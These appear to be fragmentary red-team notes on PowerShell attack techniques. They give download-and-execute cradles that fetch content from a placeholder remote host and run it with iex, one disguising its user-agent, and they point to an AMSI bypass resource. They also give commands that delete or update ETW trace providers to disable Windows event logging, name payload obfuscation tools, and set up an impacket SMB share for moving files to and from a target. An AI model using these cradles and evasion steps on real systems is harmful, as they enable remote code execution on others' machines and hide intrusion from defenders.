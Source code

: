 Target:
```powershell
$docxml = New-Object System.Xml.XmlDocument
$docxml.Load("http://ip/file.xml"); 
iex $docxml.command.a.execute 
```

Especify user-agent: allows disguising requests
```powershell
$variable.Headers.Add("user-agent","redteam")
iex $variable.DownloadString($address,$path)
```


### AMSI

amsi.fail

Event Tracking for Windows (ETW)
```powershell
C:\Remove-EtwTraceProvider -AutologgerName EventLog-Application -Guid '{A0C1853B-5C40-4B15-8766-3CF1C58F985A}'

# this command will delete the register key, in other word it disables the ETW
```

Remove the provider ETW in a session:
```powershell
C:\logman update trace EventLog-Application --p Microsoft-Windows-PowerShell -ets
```

### Obfuscation

Invoke-CradleCrafter:

- Generate payload for remote downloads and obfucated scripts

Invoke-Obfuscation:
```powershell
- it does various types of obfuscation and encoding 

first import the module
> Import-Module Invoke-Obfuscation.psd1
```


Impacket has a module that opens a share in  a smb server for file transfer:
```powershell
on Kali   > impacket-smbserver -smb2support <share name> <directory>
on Target > net uset z: \\<kali ip>\<share name>
then just cd to z:
```

```powershell
git reset --hard # update the repository
```

```powershell
pwsh # to open powershel on Linux
```
